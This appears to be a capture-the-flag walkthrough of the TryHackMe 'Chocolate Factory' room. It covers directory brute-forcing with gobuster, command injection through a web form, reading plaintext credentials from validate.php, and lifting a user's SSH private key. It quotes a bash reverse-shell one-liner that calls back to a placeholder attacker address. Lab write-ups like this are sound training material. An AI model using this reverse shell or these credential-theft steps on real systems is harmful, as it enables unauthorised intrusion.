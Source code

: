 
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  "uname -a" command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```

remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as **www-data** !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , key_rey_key seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the **validate.php** code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into **rsa_key** file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119171473-3495e980-ba97-11eb-8cd3-43eb86e7309d.png"/>
</p>



